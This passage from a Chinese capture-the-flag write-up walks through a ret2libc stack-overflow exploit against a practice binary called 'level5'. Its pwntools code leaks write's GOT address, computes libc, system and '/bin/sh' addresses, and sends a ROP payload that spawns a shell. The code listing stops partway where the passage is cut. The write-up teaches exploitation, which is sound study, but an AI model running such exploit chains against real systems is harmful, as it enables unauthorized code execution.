 这样，我们就获得了write函数真实地址。

```python
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#libc=ELF('libc.so.6')
libc_base=write_start-libc.symbols['write']
system_addr=libc.symbols['system']+libc_base
binsh=next(libc.search('/bin/sh'))+libc_base

print "libc_base_addr_in_memory_is "+hex(libc_base)
print "system_addr_in_memory_is "+hex(system_addr)
print "/bin/sh_addr_in_memory_is "+hex(binsh)

pop_rdi_ret=0x400623
payload='a'*0x88+p64(pop_rdi_ret)+p64(binsh)+p64(system_addr)

p.send(payload)

p.interactive()
```

当我们获得write函数的真实地址之后，就可以计算出libc文件的基址，从而可以计算出system函数和/bin/sh字符串在内存中的地址，从而利用它。

接下来解释一下第二个payload的意思：

> payload='a'*0x88+p64(pop_rdi_ret)+p64(binsh)+p64(system_addr)
>

当程序重新执行到main函数时，我们利用栈溢出让返回地址被pop_rdi_ret覆盖，从而程序执行pop_rdi_ret。

> 请注意，当我们send payload之后，pop_rdi_ret、binsh和system_addr被送到了栈中，利用gadgets：pop rdi;ret 将栈中的binsh地址送往rdi寄存器中（也就是说pop_rdi_ret的参数是地址binsh），然后将system函数地址覆盖到ret，程序就会执行此system函数。
>
> 当system函数执行的时候会利用到rdi里的参数，动态调试一下就知道了。
>

完整的exp如下：

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

pop_addr = 0x40061a          
write_got = elf.got['write']
mov_addr = 0x400600
main_addr = elf.symbols['main']

p.recvuntil('Hello, World\n')
payload0 = 'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + 'a'*(0x8+8*6) + p64(main_addr)
p.sendline(payload0)

write_start = u64(p.recv(8))
print "write_addr_in_memory_is "+hex(write_start)

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#libc=ELF('libc.so.6')
libc_base=write_start-libc.symbols['write']
system_addr=libc.symbols['system']+libc_base
binsh=next(libc.search('/bin/sh'))+libc_base

print "libc_base_addr_in_memory_is "+hex(libc_base)
print "system_addr_in_memory_is "+hex(system_addr)
print "/bin/sh_addr_in_memory_is "+hex(binsh)

pop_rdi_ret=0x400623
```